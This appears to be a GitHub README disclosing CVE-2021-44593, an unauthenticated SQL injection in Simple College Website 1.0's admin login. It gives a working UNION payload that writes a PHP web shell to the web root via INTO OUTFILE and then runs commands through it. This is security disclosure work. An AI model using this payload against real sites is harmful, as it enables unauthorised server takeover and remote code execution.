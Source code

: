 # CVE-2021-44593
Public disclosure of CVE-2021-44593. A SQL injection/arbitrary file upload/remote code execution vulnerability in Simple College Website.

## DESCRIPTION

Simple College Website 1.0 is vulnerable to an unauthenticated union-based SQL injection in the "username" parameter of the /admin/login.php page, which can then be leveraged to upload arbitrary files & gain remote code execution.

## COMPONENTS AFFECTED

The function ```login()``` in ```admin_class.php```

## STEPS TO REPRODUCE

1. Access the admin login page (usually /admin/login.php) 
2. Submit the login form with the POST parameter "username" containing the following UNION-based SQL injection: 
```
' union select null, null, ("<?php system($_GET['cmd']);?>"), null, null INTO OUTFILE '/var/www/html/testing.php'; -- -
```
6. Navigate to /testing.php?cmd=id

## NOTES

1. Knowledge of the web server root directory location is needed.
2. Knowledge of the document root directory location may also be needed if it is not the same as the web server root directory.
3. Further, the MySQL daemon needs to have write permissions for said directory.

